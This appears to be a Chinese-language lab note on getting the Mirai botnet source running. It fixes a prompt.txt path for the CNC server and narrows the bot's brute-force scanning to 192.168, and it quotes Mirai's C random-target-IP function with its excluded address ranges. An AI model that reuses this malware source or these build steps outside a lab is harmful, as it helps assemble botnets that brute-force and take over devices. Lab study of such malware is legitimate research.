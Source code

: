 ### 其余代码调整

由于 cnc 启动是在`/debug/cnc`目录下进行的，但是源码里写的是绝对路经。（如下图）

![Pasted image 20250506171610.png](./Pasted%20image%2020250506171610.png)
所以我们把`mirai`目录下的`prompt.txt`移动到`/debug/cnc`下
当然也可以在 admin.go 中将 prompt.txt 的使用注释

```go
    // headerb, err := ioutil.ReadFile("prompt.txt")
    // if err != nil {
    //     return
    // }
```

由于确定扫描的字段，修改为只爆破 192.168：

```cc
static ipv4_t get_random_ip(void)
{
    uint32_t tmp;
    uint8_t o1, o2, o3, o4;

    do
    {
        tmp = rand_next();

        o1 = tmp & 0xff;
        o2 = (tmp >> 8) & 0xff;
        o3 = (tmp >> 16) & 0xff;
        o4 = (tmp >> 24) & 0xff;
    }
    while (o1 == 127 ||                             // 127.0.0.0/8      - Loopback
          (o1 == 0) ||                              // 0.0.0.0/8        - Invalid address space
          (o1 == 3) ||                              // 3.0.0.0/8        - General Electric Company
          (o1 == 15 || o1 == 16) ||                 // 15.0.0.0/7       - Hewlett-Packard Company
          (o1 == 56) ||                             // 56.0.0.0/8       - US Postal Service
          (o1 == 10) ||                             // 10.0.0.0/8       - Internal network
          (o1 == 192 && o2 == 168) ||               // 192.168.0.0/16   - Internal network
          (o1 == 172 && o2 >= 16 && o2 < 32) ||     // 172.16.0.0/14    - Internal network
          (o1 == 100 && o2 >= 64 && o2 < 127) ||    // 100.64.0.0/10    - IANA NAT reserved
          (o1 == 169 && o2 > 254) ||                // 169.254.0.0/16   - IANA NAT reserved
          (o1 == 198 && o2 >= 18 && o2 < 20) ||     // 198.18.0.0/15    - IANA Special use
          (o1 >= 224) ||                            // 224.*.*.*+       - Multicast
```